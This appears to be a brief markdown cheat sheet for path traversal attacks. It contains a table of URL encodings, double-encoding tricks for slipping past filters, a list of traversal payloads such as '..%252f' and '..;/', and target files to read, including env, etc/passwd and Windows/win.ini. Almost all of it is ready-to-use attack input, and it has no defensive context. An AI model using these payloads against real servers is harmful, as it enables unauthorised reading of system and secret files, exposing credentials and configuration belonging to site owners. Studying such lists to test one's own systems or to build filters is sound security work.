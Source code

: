 # Path transversal

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

```
%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

## Payloads

```
..;/
..%5c
..%2f
../
..\
..%252f
%2e%2e%252f
/
//
///
////
/////
//////
///////
////////
/////////
//////////
```

## Files

env

etc/passwd

Windows/win.ini


## Resources

| URL |
| --- |
| https://github.com/GrrrDog/weird_proxies |
